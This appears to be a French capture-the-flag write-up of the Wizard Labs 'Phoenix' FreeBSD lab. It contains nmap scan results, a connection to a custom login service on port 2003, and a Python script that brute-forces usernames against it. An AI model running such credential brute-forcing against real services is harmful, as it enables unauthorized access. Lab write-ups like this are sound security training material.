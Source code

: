 ```yaml
---
title: Solution du CTF Phoenix de Wizard Labs
tags: [CTF, WizardLabs]
---
```


Passion
-------

C'est parti pour ce petit CTF de *WizardLabs* baptisé *Phoenix* et basé sur FreeBSD.  

Nmap nous trouve une poignée de ports ouverts :  

```plain
22/tcp   open  ssh         OpenSSH 7.2 (FreeBSD 20161230; protocol 2.0)
80/tcp   open  http        Apache httpd 2.4.33 ((FreeBSD))
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.8.0 (workgroup: WORKGROUP)
2003/tcp open  finger?
```

La version de Samba ne semble pas être impactée par la faille [SambaCry](https://securelist.com/sambacry-is-coming/78674/).  

Sur le serveur Apache on ne trouve rien... absolument rien, c'est la cata :(  

Le port 2003 fait tourner un service custom :  

```plain
$ ncat 10.1.1.12 2003 -v
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Connected to 10.1.1.12:2003.
  ,---.     ,--.          ,--.         ,-----.                             ,--.
 /  O  \  ,-|  |,--,--,--.`--',--,--, '  .--./ ,---. ,--,--,  ,---.  ,---. |  | ,---.
|  .-.  |' .-. ||        |,--.|      \|  |    | .-. ||      \(  .-' | .-. ||  || .-. :
|  | |  |\ `-' ||  |  |  ||  ||  ||  |'  '--'' '-' '|  ||  |.-'  `)' '-' '|  |\   --.
`--' `--' `---' `--`--`--'`--'`--''--' `-----' `---' `--''--'`----'  `---' `--' `----'

Username ?
```

Bien sûr j'ai tenté de brute-forcer ce service pour trouver un identifiant valide :  

```python
import socket
import sys
from time import sleep

wordlist = sys.argv[1]

word = ""
with open(wordlist, errors="ignore") as fd:
    for i, line in enumerate(fd):
        word = line.strip().lower()
        sock = socket.socket()
        sock.settimeout(5)
        try:
            sock.connect(('10.1.1.12', 2003))
            sock.recv(1024) # banner
            sock.recv(1024) # prompt
            sock.send("{}\n".format(word).encode(errors="ignore"))
            buff = sock.recv(1024).decode() # prompt
            sock.close()
            if "Login Failed !" not in buff:
                print("Received '{}' with user '{}'".format(buff, word))
                sleep(1)
        except socket.error:
            print("Socket error with", word)
```